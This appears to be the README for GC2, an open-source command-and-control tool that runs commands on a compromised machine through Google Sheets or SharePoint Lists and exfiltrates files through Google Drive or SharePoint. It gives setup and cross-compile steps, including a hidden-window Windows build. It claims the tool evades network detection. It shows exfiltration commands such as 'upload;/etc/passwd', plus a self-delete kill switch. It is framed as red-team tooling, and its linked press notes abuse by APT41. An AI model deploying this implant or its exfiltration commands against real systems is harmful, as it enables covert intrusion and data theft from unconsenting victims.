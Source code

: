 # GC2

<p align="center">
  <img alt="Logo" src="img/GC2.png" height="30%" width="30%">
</p>

GC2 (Google Command and Control) is a Command and Control application that allows an attacker to execute commands on the target machine using Google Sheet or Microsoft SharePoint List and exfiltrate files using Google Drive or Microsoft SharePoint Document.

# Why

This project has been developed to provide a command and control that does not require any particular set up (like: a custom domain, VPS, CDN, ...) during Red Teaming activities.

Furthermore, the program will interact only with Google and Microsoft's domains (like *.google.com) to make network detection more difficult.

# Workflow

## Google
<p align="center">
  <img alt="Work Flow" src="img/Google_workflow.png" height="60%" width="60%">
</p>

## Microsoft
<p align="center">
  <img alt="Work Flow" src="img/Microsoft_workflow.png" height="60%" width="60%">
</p>

# Set up

This C2 support both Google (Google Sheet + Google Drive) and Microsoft (SharePoint Lists + SharePoint Document) services. To use the C2 you need to set up both the local and cloud configuration.

## Cloud config

### Google

1. **Create a new Google "service account"**
 
    Create a new Google "service account" using [https://console.cloud.google.com/](https://console.cloud.google.com/), create a .json key file for the service account. 

2. **Enable Google Sheet API and Google Drive API**

    Enable Google Drive API [https://developers.google.com/drive/api/v3/enable-drive-api](https://developers.google.com/drive/api/v3/enable-drive-api) and Google Sheet API [https://developers.google.com/sheets/api/quickstart/go](https://developers.google.com/sheets/api/quickstart/go). 

3. **Set up Google Sheet and Google Drive**

    Create a new Google Sheet and share it (as Editor) with the Service Account (by using its email).
    
    <p align="center">
        <img alt="Sheet Permission" src="img/Google_Sheet_permissions.png" height="60%" width="60%">
    </p>
    
    Create a new Google Drive folder and share it (as Editor) with the Service Account (by using its email).
    
    <p align="center">
        <img alt="Sheet Permission" src="img/Google_Drive_permissions.png" height="60%" width="60%">
    </p>    

### Microsoft

To interact with Microsoft services you will first need a Business subscription (you can get one for free for the first 30 days).

1. **Create an Azure Application**

   Create a new Azure Aapplication as described here [https://learn.microsoft.com/en-us/graph/auth-v2-service?tabs=http](https://learn.microsoft.com/en-us/graph/auth-v2-service?tabs=http)

    <p align="center">
        <img alt="Sheet Permission" src="img/Microsoft_Azure_application.png" height="60%" width="60%">
    </p>

   After creating the new application, enable the following Graph APIs:
   - Sites.ReadWrite.All
   - Files.ReadWrite.All

    <p align="center">
        <img alt="Sheet Permission" src="img/Microsoft_Azure_application_API.png" height="60%" width="60%">
    </p>

### Local config

1. **Download the C2**

    The C2 can be cloned directly from GitHub:

    ```
    git clone https://github.com/looCiprian/GC2-sheet
    cd GC2-sheet
    ```

5. **Configure the C2**

    To configure the C2 you need to modify the `cmd/options.yml` file. The C2 supports both Google and Microsoft services, mixing them is also possible.

   *Only Google services*

    ```
   CommandService: "Google" # Google Sheet will be used as command service to pull commands and push commands' output
   FileSystemService: "Google" # Google Drive will be used as file system to download and exfiltrate files
   GoogleServiceAccountKey : "1234567890" # your escaped json file
   GoogleSheetID: "0987654321" # your Google Sheet ID (can be found in the URL)
   GoogleDriveID: "1234554321" # your Google Drive folder ID (can be found in the URL)
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
    ```

   *Only Microsoft services*
   
   ```
   CommandService: "Microsoft" # Microsoft SharePoint List will be used as command service to pull commands and push commands' output
   FileSystemService: "Microsoft" # Microsoft SharePoint Document will be used as file system to download and exfiltrate files
   MicrosoftTenantID: "567890098765" # your Azure Tenant ID where the Azure Application was created
   MicrosoftClientID: "098765567890" # your Azure Application ID
   MicrosoftClientSecret: "1234509876" # your Azure Application Secret value
   MicrosoftSiteID: "0987612345" # # your SharePoint ID
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
   ```

   *Mixing Google and Microsoft services*
   
   ```
   CommandService: "Google" # Google Sheet will be used as command service to pull commands and push commands' output
   FileSystemService: "Microsoft" # Microsoft SharePoint Document will be used as file system to download and exfiltrate files
   GoogleServiceAccountKey : "1234567890" # your escaped json file
   GoogleSheetID: "0987654321" # your Google Sheet ID (can be found in the URL)
   GoogleDriveID: "1234554321" # your Google Drive folder ID (can be found in the URL)
   MicrosoftTenantID: "567890098765" # your Azure Tenant ID where the Azure Application was created
   MicrosoftClientID: "098765567890" # your Azure Application ID
   MicrosoftClientSecret: "1234509876" # your Azure Application Secret value
   MicrosoftSiteID: "0987612345" # # your SharePoint ID
   #RowId: 1 # optional, specify from which (Google Sheet or SharePoint List) row the beacon should pull new commands
   #Proxy: "http://127.0.0.1:8080" # optional, specify the proxy
   Verbose: true # optional, suggested for debugging purposes
   ```

6. **Build the executable**

   Few examples on how cross compile the C2 for different OS and architecture. 

    ```
   env GOOS=windows GOARCH=amd64 go build -ldflags "-s -w -H windowsgui"
   env GOOS=linux GOARCH=amd64 go build -ldflags "-s –w"
   env GOOS=darwin GOARCH=amd64 go build -ldflags "-s –w"
    ```

7. **Run**

    After compiling execute it.

    ```
    ./gc2-sheet
    ```
   
   The beacon will automatically create a new Google Sheet or Microsoft SharePoint List accordingly to your configuration.

## Troubleshooting

Most of the errors can be detected by setting the `verbose` flag to `true`. By default, the C2 does not generate any output or error information.

# Features

- Command execution using Google Sheet or Microsoft SharePoint List as a console
- Download files on the target using Google Drive or Microsoft SharePoint Document
- Data exfiltration using Google Drive or Microsoft SharePoint Document
- Self-kill switch and auto-delete from the target machine 

## Command execution

### Google

A Google Sheet will be automatically created by the C2. Once created you can interact with the compromised system as shown below.

   <p align="center">
        <img alt="Sheet Permission" src="img/Google_usage.png" height="60%" width="60%">
    </p>

### Microsoft

A Microsoft SharePoint List will be automatically created by the C2. Once created you can interact with the compromised system as shown below.

   <p align="center">
        <img alt="Sheet Permission" src="img/Microsoft_usage.png" height="60%" width="60%">
    </p>

## Data exfiltration file

Special command is reserved to exfiltrate files form the target system.

 ```
From Target to Google Drive/Microsoft SharePoint Document
upload;<local path>
Example:
upload;/etc/passwd
 ```

Note: files with the same name are automatically overwritten.

## Download file

Special command is reserved to download files to the target system.

#### Google 
 ```
 From Google Drive to Target
download;<google drive file id>;<local path>
Example:
download;<file ID>;/home/user/downloaded.txt
 ```

#### Microsoft
Note: Files need to be saved in the SharePoint root folder, usually "Documents"
 ```
 From SharePoint to Target
download;<SharePoint file path>;<local path>
Example:
download;download.txt;/home/user/downloaded.txt
 ```

## Exit

By sending the *exit* command, the C2 will kill and delete itself from the target system.

PS: From *os* documentation: 
*If a symlink was used to start the process, depending on the operating system, the result might be the symlink or the path it pointed to*. In this case, the symlink is deleted.

# DEF CON Slides + demo

[DEF CON Slide](https://drive.google.com/file/d/1cokEcUcxgR4pNRRF5lIXCsNW8kh4ME42/view?usp=sharing)

[Demo](https://youtu.be/n2dFlSaBBKo)

[Demo](https://youtu.be/pLfuZnLcR1o) by [Grant Collins](https://www.youtube.com/@collinsinfosec)

# Disclaimer

The owner of this project is not responsible for any illegal usage of this program.

This is an open source project meant to be used with authorization to assess the security posture and for research purposes.

The final user is solely responsible for their actions and decisions. The use of this project is at your own risk. The owner of this project does not accept any liability for any loss or damage caused by the use of this project.

# Support the project

**Pull request** or [![paypal](https://www.paypalobjects.com/en_US/i/btn/btn_donate_SM.gif)](https://www.paypal.com/donate?hosted_button_id=8EWYXPED4ZU5E)

# Articles related to this tool

[DEF CON 32](https://forum.defcon.org/node/249630); [DEF CON 32 Reddit](https://www.reddit.com/r/Defcon/comments/tx7tg2/mega_def_con_info_for_your_planning_enjoyment/)

[Google](https://services.google.com/fh/files/blogs/gcat_threathorizons_full_apr2023.pdf)

[The Hacker News](https://thehackernews.com/2023/04/google-uncovers-apt41s-use-of-open.html)

[Reddit](https://www.reddit.com/r/cybersecurity/comments/12u3wvl/top_cybersecurity_stories_for_the_week_of_041723/)

[LinkedIn](https://www.linkedin.com/pulse/hacking-tutorial-google-sheets-command-control-c2-server-maxwell-zhou/)

[Bleeping Computer](https://www.bleepingcomputer.com/news/security/hackers-abuse-google-command-and-control-red-team-tool-in-attacks/)

[Security Affairs](https://securityaffairs.com/144915/apt/china-apt41-tool-gc2.html)

[Icrewplay](https://tech.icrewplay.com/gc2-strumento-google-gruppo-cinese-apt41/?utm_content=cmp-true)

[Information Security Buzz](https://informationsecuritybuzz.com/google-uncovers-apt41-tools-targeting-media-and-job-sites/)

[Hackdig](http://en.hackdig.com/04/477620.htm)

[Hakin9](https://hakin9.org/gc2-command-and-control-application/)

[RedPacketSecurity](https://www.redpacketsecurity.com/gc2-a-command-and-control-application-that-allows-an-attacker-to-execute-commands-on-the-target-machine-using-google-sheet-and-exfiltrate-data-using-google-drive/)

[Cyware](https://cyware.com/news/apt41-uses-open-source-red-teaming-tool-gc2-9eaecb18)

[Kitploit](https://www.kitploit.com/2021/10/gc2-command-and-control-application.html)